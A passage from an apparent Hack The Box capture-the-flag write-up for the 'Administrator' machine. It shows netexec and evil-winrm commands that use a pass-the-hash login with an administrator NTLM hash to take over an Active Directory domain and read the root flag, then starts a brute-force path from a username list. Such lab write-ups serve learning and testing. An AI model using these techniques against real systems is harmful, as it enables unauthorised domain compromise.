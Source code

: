 ### Getting a shell

#### Administrator

{% highlight shell %}
exegol-liemek hashes # netexec winrm 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) 
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\administrator:3dc553ce4b9fd20bd016e098d2d2fd2e (admin)
{% endhighlight %}

We perform a <mark>pass-the-hash (PtH)</mark> attack to log in as <mark>Administrator</mark> and retrieve the root flag.

{% highlight shell %}
exegol-liemek hashes # evil-winrm -i 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
e8fc16**************************
{% endhighlight %}

We completely <mark>compromised</mark> the entire AD domain. Now is the time to clean up after ourselves. We can't clean up changed passwords, so it is best to use methods that avoid changing them at all.

## Alternative path
---

Recall that the password policy does not stop brute-force attacks. We can leverage that and start brute-forcing our way in.

When we enumerated <mark>SMB</mark>, we retrieved a bunch of usernames from which we can create a username list.

{% highlight shell %}
exegol-liemek administrator # cat username_list.txt 
emma
alexander
ethan
emily
benjamin
michael
{% endhighlight %}
